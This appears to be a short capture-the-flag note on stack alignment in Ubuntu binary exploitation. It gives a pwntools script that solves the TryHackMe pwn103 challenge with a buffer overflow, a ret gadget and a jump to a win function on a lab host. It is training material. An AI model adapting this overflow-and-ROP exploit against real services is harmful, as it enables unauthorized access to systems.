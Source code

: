 If targets run Ubuntu, keep in mind that there's stack allignment.
If there's misallignment, use a ROP return gadget

Example:

https://tryhackme.com/room/pwn101 (pwn103)

```
from pwn import *

current_thmip = '10.10.134.184'
p = remote(current_thmip, 9003)
# p = process('./pwn103.pwn103')
elf = ELF('./pwn103.pwn103')
rop = ROP(elf)

payload = b'A'*40
payload += p64(rop.find_gadget(['ret'])[0]) # address of a 'ret' instruction - needed for stack alignment.
payload += p64(elf.symbols['admins_only']) # admins_only win function

p.clean()
p.sendline('3') # navigating menu

p.clean()
p.sendline(payload)

print(p.clean())
p.interactive()
```